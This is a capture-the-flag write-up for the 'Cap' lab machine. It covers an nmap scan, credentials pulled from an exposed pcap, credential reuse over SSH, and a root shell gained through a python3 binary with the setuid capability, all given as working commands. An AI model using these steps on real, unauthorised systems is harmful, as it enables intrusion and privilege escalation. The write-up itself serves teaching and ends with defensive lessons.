 ```yaml
---
description: Linux - Easy
---
```


# Cap

## Recon

We'll start with a `nmap` scan.

```bash
nmap -p- -T4 --min-rate=1000 -sV -sC 10.10.10.245

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 18:13 CEST
Nmap scan report for 10.10.10.245
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 03 Oct 2021 16:19:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
......
```

## User

So, we get a web server, ftp and ssh.  
Lets check out the webpage. It's a network monitoring dashboard, the side panel has three additional pages:  
Security Snapshot \(5 Second PCAP + Analysis\) - http://10.10.10.245/capture  
IP Config - http://10.10.10.245/ip  
Network Status - http://10.10.10.245/netstat

The Security Snapshot page allows to download a pcap file of the last 5 seconds of network activity.  
For example, if we `ping` the machine 8 times and request the data page at the start of the ping command we get the following.

![](../../.gitbook/assets/screenshot-7-.png)

It looks like each time the _Security Snapshot_ is requested the results are stored with an numerical index, lets checkout the first snapshot.  
http://10.10.10.245/data/0  
We get a 72 packets pcap. The protocol hierarchy tells us that its a FTP connection.  
Applying the appropriate filter we'll get the FTP credentials.

![](../../.gitbook/assets/capture%20%282%29.png)

The ftp server will show us **nathan** user home folder. Here we can get the user flag.

```bash
$ ftp 10.10.10.245
.....
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Oct 04 07:18 user.txt
ftp> get user.txt
```

If we try reusing the FTP credentials in SSH we'll find that they are valid.

## Root

We have SSH access to the machine. Lets check out how the web app generates the pcap files, given that network capture usually requires elevated privileges.

```bash
$ cd /var/www/html
$ less app.py
......
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
......
```

Looks like Python3 has SUID flag, the `getcap`command will allow us to check this.  
We can modify the app.py command string to spawn a root shell.

```bash
$ which python3
/usr/bin/python3
$ ls -la /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
$ getcap /usr/bin/python3.8 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# whoami
root
```

## Conclusion

This machine is quite straight forward, but we can get a couple of takeaways:  
Be mindful of what is exposed in your website by URL manipulation \(IDOR\), don't reuse credentials and don't grant unrestricted elevated permissions, especially if the executable accepts user input.

